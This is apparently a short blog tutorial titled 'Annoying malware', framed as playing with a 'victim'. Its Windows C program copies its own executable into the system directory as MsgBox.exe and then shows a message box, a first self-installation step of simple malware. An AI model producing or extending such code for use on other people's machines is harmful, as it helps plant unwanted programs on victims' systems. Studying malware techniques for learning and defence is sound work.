 ```yaml
---
title: Annoying malware
author: 0x41ly
classes: wide
ribbon: red
date: 2021-07-07 18:00:00 +0800
description: TryHackMe room.
categories:
  - Exploit Development
toc: true
published: true
---
```


## Hi guys
Welcome back :)   
#### NOTE:
Making malware is not always for destruction. It's not fun at all to destruct someones' machine. So, let's play with our victim :).   

We have seen how to make a MsgBox now how to put our executable in a specific place?

```
#include <windows.h>

int WINAPI WinMain (HINSTANCE hThisInstance, HINSTANCE PrevInstance,
                            LPSTR lpszArgument, int nFunsterStil)

{
 char system[MAX_PATH];
char pathtofile[MAX_PATH];
HMODULE GetModH = GetModuleHandleA(NULL);

GetModuleFileNameA(GetModH,pathtofile,sizeof(pathtofile));
GetSystemDirectoryA(system,sizeof(system));

strcat(system,"\\MsgBox.exe");

CopyFile(pathtofile,system,false);

MessageBoxA( NULL, "Hello From Nakerah", "Nakerah NG", MB_OK );
 return 0;
}

```
Now compile and run.